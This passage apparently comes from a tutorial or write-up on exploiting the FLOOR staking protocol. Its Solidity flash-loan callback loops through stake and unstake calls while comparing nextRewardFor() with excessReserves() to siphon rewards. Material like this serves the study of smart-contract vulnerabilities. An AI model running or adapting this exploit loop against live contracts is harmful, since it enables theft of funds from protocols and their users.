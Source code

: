 <figure><img src="../../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

With this discovery, our attack logic can now be implemented: we read the values of `nextRewardFor()` and `excessReserves()` and perform arbitrage only when the condition holds. (see exp\_3)

```solidity
function uniswapV3FlashCallback(uint256 fee0 , uint256 fee1, bytes calldata) external {
        uint i = 1;
        while(true) {
            uint attackerBalance = floor.balanceOf(address(this));
            uint stakingBalance = floor.balanceOf(address(staking));
            uint circulatingSupply = sFloor.circulatingSupply();
            if (attackerBalance + stakingBalance > circulatingSupply) {
                emit log_named_uint("Iteration", i);
                floor.approve(address(staking), attackerBalance);
                staking.stake(address(this), attackerBalance, false, true);
                uint256 mintAmount = distributor.nextRewardFor(address(staking));
                uint256 reserves = treasury.excessReserves();
                emit log_named_uint("Next reward amount ", mintAmount);
                emit log_named_uint("excess reserves", reserves);
                if (mintAmount <= reserves) {
                    uint gFloorBalance = gFloor.balanceOf(address(this));
                    staking.unstake(address(this), gFloorBalance, true, false);
                    emit log_named_decimal_uint("FLOOR token balance ", floor.balanceOf(address(this)), floor.decimals());
                    i += 1;
                } else {
                    break;
                }
            }
        }
        floor.transfer(msg.sender, flashAmount + fee1);
    }
```

However, it's important to note that when `mintAmount > reserves` for the first time, we have actually crossed a boundary. Attempting to execute `unstake()` at this point would inevitably result in an error due to insufficient reserves, so we choose to break.
